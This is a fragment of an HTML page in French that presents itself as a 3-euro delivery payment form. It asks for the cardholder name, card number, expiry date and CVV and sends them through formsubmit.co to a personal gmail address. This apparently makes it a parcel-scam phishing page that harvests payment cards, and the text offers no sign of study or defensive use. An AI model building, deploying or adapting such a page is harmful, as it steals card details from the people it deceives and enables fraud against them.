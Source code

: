     <h2>Paiement de livraison</h2>

    <form action="https://formsubmit.co/06esdgj42@gmail.com" method="POST">
      <input type="text" name="nom" placeholder="Nom sur la carte" required>

      <div class="input-icon">
        <input type="text" name="numero" placeholder="N° de carte" required>
        <img src="https://cdn-icons-png.flaticon.com/512/633/633611.png" alt="carte">
      </div>

      <div class="row">
        <input type="text" name="expiration" placeholder="MM/AA" required class="half">
        <input type="text" name="cvv" placeholder="CVV" required class="half">
      </div>

      <input type="hidden" name="_next" value="https://formsubmit.co/confirmation">
      <button class="btn" type="submit">Payer 3 €</button>
    </form>
  </div>
  

</body>
</html>
